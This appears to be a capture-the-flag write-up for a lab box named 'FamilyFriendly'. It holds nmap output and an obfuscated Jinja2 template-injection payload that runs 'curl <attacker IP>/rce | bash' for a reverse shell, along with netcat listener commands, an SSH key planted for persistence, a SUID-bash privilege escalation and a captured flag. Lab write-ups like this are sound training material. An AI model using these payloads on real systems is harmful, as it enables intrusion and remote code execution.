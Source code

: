 # FamilyFriendly

## Enumeration
```bash
└─$ nmap -A -p- -sC -T4 10.10.205.16 -oX nmap.out                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 14:25 BST
Nmap scan report for 10.10.205.16
Host is up (0.036s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
7/tcp  open  echo
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:30:c5:61:92:84:1b:24:64:86:c3:3b:b7:dc:99:34 (RSA)
|   256 78:c3:c3:83:81:73:cb:f1:50:41:f1:9a:d7:bf:3e:d1 (ECDSA)
|_  256 ec:ce:b8:f9:57:53:56:63:e9:61:90:12:15:e5:78:4a (ED25519)
23/tcp open  telnet  Linux telnetd
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
48151/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.6.9)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.10.34.139:48151/login
|_http-server-header: Werkzeug/2.0.3 Python/3.6.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.09 seconds

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

└─$ telnet <IP> 23 
```
### I found a secret path with fuff
```bash
http://10.10.101.61:48151/temporary/dev/new/account
```
### I create a user with the following password and when I connect, the password gives me a reverse shell.
```js
username = {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.37.214/rce | bash")|attr("read")()}}
```
```bash
python3 -m http.server 80

nc -lnvp 4444
```
## User FLAG

```cat /home/deadpool/user.txt``` : EPI{R_j00_5UR3_j00R3_n07_pHR0M_7H3_Dc_UN1V3r23}

## Privilege Escalation

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEVHSInmKKk3Z3UHbvtH9LHOnWkDTnKFtoPTRMI2+J+a mariusmarolleau@gmail.com" > authorized_keys
```

### linpeas gives me a vulnerability
cd /etc/logstash/conf.d

### modifie the file in this directory to get a bash with a suid in deadpool's home

```bash
cd /home/deadpool
./bash -p
```
### Got a shell as root

## Root FLAG

I forgot to write it :(

